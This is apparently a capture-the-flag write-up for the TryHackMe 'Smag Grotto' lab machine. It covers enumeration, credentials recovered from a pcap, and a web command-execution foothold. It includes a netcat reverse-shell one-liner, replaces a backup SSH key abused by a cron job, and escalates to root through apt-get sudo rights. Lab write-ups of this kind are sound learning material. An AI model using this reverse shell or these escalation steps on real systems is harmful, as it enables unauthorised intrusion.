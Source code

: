 ```yaml
---
title: "Smag Grotto - TryHackMe"
category: "THM"
pubDate: 2020-07-30
description: "Writeup for the Smag Grotto university of Portsmouth's beginner room"
---
```

[TryHackMe | Smag Grotto](https://tryhackme.com/room/smaggrotto)

Deploy the machine and get root privileges.

---

### Setup

```
[smaggrotto] nmap -A 10.10.192.6                                                                                         2:01:00
```

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 1.3K  2020-06-05 10:56  admin.php
| 1.5K  2020-06-05 10:45  login.php
| 139K  2020-06-05 10:19  materialize.min.css
|_
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](https://i.imgur.com/D9PypUN.png)

Let's see if there is something on the website

![](https://i.imgur.com/aXIQi2Y.png)

Well nothing of the website let's see of there is some hidden dirrectory with gobuster/dirb

```
# Select your own wordlist
[smaggrotto] gobuster -u 10.10.192.6 -w /opt/directory-list-2.3-medium.txt
```

```
Gobuster v1.3                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.192.6/
[+] Threads      : 10
[+] Wordlist     : /opt/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/mail (Status: 301)
```

![](https://i.imgur.com/V1XUxTY.png)

![](https://i.imgur.com/UZZG0pk.png)

Nice there is something interesting on this webpage let's download the pcap (wireshark) file and extract the juicy data 👀

![](https://i.imgur.com/FZ4Kz25.png)

The simple way to extract the data is to select the first packet then go to the "Analyse" tab the click on the "Follow" then "TCP Stream"

![](https://i.imgur.com/yKY9pMB.png)

![](https://i.imgur.com/RR1fGLX.png)

Nice we successfully have the username and the password but for what ? The SSH ? Or something else ? 🙄

Before trying the SSH connection with those credentials, you can see on the TCP Stream there is a Host : "development.smag.thm", let's take a look to this link.

To add this host you need to edit your "/etc/hosts" file.

![](https://i.imgur.com/Q5KPLgs.png)

![](https://i.imgur.com/FLbTQw7.png)

Well let's use the credentials that the TCP Stream gives us

```
h[nope 👁👄👁]k:cH[nope 👁👄👁]0w
```

![](https://i.imgur.com/L0iBMqp.png)

Nice, we can execute remote command let's try a reverse shell 🤩

![](https://i.imgur.com/UJiq34Y.png)

(This is actually my own chrome extension to generate some reverse shell and more..)

[LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.28.116 1337 >/tmp/f
```

![](https://i.imgur.com/4pVmO2j.png)

Nice we have a reverse shell, let's see if we can have the first flag 🏅

![](https://i.imgur.com/i1MkJLx.png)

As you can see we don't have the permission to see the content of the file let's upload LinEnum to see if there is some potential attacks that we can perform.

![](https://i.imgur.com/G9PaoMF.png)

Ah, I found something very interesting with the cronjob

![](https://i.imgur.com/MkUFU4L.png)

As you can see the cronjob is taking the jake's backup SSH public key and add it to the authorised keys, if we create our own key and modify the backup file we can access the server ☺️

First let's generate our own SSH public key 👍

```
[smaggrotto] ssh-keygen -o
```

![](https://i.imgur.com/kXjks3E.png)

Nice we have our own SSH public key let's change the backup file on the server 👍

![](https://i.imgur.com/Q7IGUeR.png)

Now let's wait one or two minutes and then we can log to the server with the jake username 😀

```
[smaggrotto] ssh -i [Path to your ssh key] jake@10.10.192.6
```

![](https://i.imgur.com/hEeAJH6.png)

And voilà ! You have the access to the remote server ! 🎉

### **#1 What is the user flag?**

```
iusGo[nope 👁👄👁]uqU3j
```

![](https://i.imgur.com/5xn3kch.png)

### **#2 What is the root flag?**

Now let's get a root access 😍

![](https://i.imgur.com/TcRPpC7.png)

![](https://i.imgur.com/9sh8unG.png)

[apt get | GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo)

![](https://i.imgur.com/iDrkgGN.png)

```
uJr6zRgetan[nope 👁👄👁]bBKz2T
```



